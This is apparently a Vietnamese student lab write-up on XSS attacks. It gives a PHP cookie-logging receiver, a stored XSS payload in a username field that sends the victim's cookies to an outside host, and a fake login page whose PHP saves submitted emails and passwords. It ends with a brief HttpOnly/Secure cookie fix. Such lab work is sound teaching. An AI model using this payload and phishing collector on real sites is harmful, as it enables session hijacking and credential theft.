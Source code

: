 Người thực hiện: Lê Trần Văn Chương
Ngày: 12/04/2022
Mục lục:
- [Host](#host)
- [XSS](#xss)
- [Phishing XSS](#phishing-xss)
- [HttpFlag và secure cho cookie](#httpflag-và-secure-cho-cookie)

## Host
- Host nhận cookie người dùng: https://php-bacsic.000webhostapp.com/index.php
- Host để attack: https://00bluec10.000webhostapp.com/index.php

## XSS

1. Thêm đoạn code sau vào host nhận cookie. Đoạn code này sẽ lấy cookie và ghi vào file `logs.txt`.

```php
<?php
$cookie = $_GET["cookie"];
$file = fopen('logs.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```

2. Thêm `<a onmouseover=\"document.location=\'https://php-bacsic.000webhostapp.com/index.php?c=\'+escape\(document.cookie\)\;\">XSSError</a>` vào username và khi người dùng vào web và rê chuột vào chữ `XSSError` thì lực tức sẽ được chuyển qua trang host để lấy cookie người.
![Hinh 1.](~/../img/1.png)

3. Kiểm tra lại file `logs.txt`
![Hinh 2.](~/../img/2.png)


## Phishing XSS

1. Tạo 1 trang login giả để chèn vào web attack đây là link: https://php-bacsic.000webhostapp.com/fakeLogin.php
![Hinh 3.](~/../img/3.png)

2. Trong trang đó ta chèn thêm vài dòng code php để có thể lấy dữ liệu người dùng và sau khi user nhấn vào login thì trả về index.
```php
<?php
if (isset($_POST['email'], $_POST['password'])) {
    $fp = fopen("logs.txt", 'a+');
    fwrite($fp, $_POST['email'] . ':' . $_POST['password'] . "\n");
    fclose($fp);
    exit('<script>window.open("https://00bluec10.000webhostapp.com/index.php","_top");</script>');
}
?>
```

3. Đây là dữ liệu lấy được
![Hinh 4.](~/../img/4.png)

## HttpFlag và secure cho cookie
```php
<?php
setcookie('username', 'test', ['httponly' => true, 'secure' => true]);
?>
```